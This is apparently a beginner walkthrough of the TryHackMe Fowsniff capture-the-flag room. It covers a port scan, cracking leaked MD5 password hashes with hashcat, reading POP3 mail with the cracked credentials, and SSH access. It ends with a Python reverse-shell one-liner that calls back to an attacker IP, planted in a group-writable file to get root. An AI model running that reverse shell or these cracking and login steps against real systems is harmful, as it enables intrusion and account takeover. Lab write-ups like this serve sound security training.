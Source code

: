 ```yaml
---
title: Walkthrough - Fowsniff CTF
published: true
---
```


Portscanning, Hashes, Bruteforcing, POP3. Hack this machine and get the flag. There are lots of hints along the way and is perfect for beginners!

[https://tryhackme.com/room/ctf](https://tryhackme.com/room/ctf)

* * *

## Task 1 Hack into the FowSniff organisation.

**Using nmap, scan this machine. What ports are open?**

```shell
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Fowsniff Corp - Delivering Solutions
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: USER TOP SASL(PLAIN) UIDL AUTH-RESP-CODE CAPA RESP-CODES PIPELINING
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: AUTH=PLAINA0001 ID ENABLE listed post-login LITERAL+ IMAP4rev1 IDLE have capabilities Pre-login OK LOGIN-REFERRALS more SASL-IR
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Using the information from the open ports. Look around. What can you find?**

- an open webserver open pop3 server and open imap server. we find the Fowsniff corp has been hacked and all credentials leaked.

**Using Google, can you find any public information about them?**

- checking the twitter can see the pastebin dump with all the passwords. And more hints we can use.

```shell
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!
 
 
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
 
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
 
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
 
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
 
l8r n00bz!
 
B1gN1nj4
```

**Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.**

- hashcat can crack all but stones ``hashcat -m 0 fowsniff.creds rockyou.txt``

```shell
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo10
tegel@fowsniff:1dc352435fecca338acfd4be10984009:apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb:skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever 
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11:orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e:07011972
```

**Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?**

- we can but we already have the credentials, so just going to telnet in.

**What was seina's password to the email service?**

- scoobydoo2

**Can you connect to the pop3 service with her credentials? What email information can you gather?**

```
Trying 10.10.239.3...
Connected to 10.10.239.3.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
STAT
+OK 2 2902
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```

```
Received: by fowsniff (Postfix, from userid 1004)
        id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.
```

**Looking through her emails, what was a temporary password set for her?**

- ``S1ck3nBluff+secureshell``

**In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.**

- baksteen

**Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?**

- ``id``
- ``find / -user 1001 2>/dev/null``

**Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?**

Python Reverse Shell:

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.127.225",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'``

When we connect again with ssh it will send us a reverse shell we can login as root.

* * * 

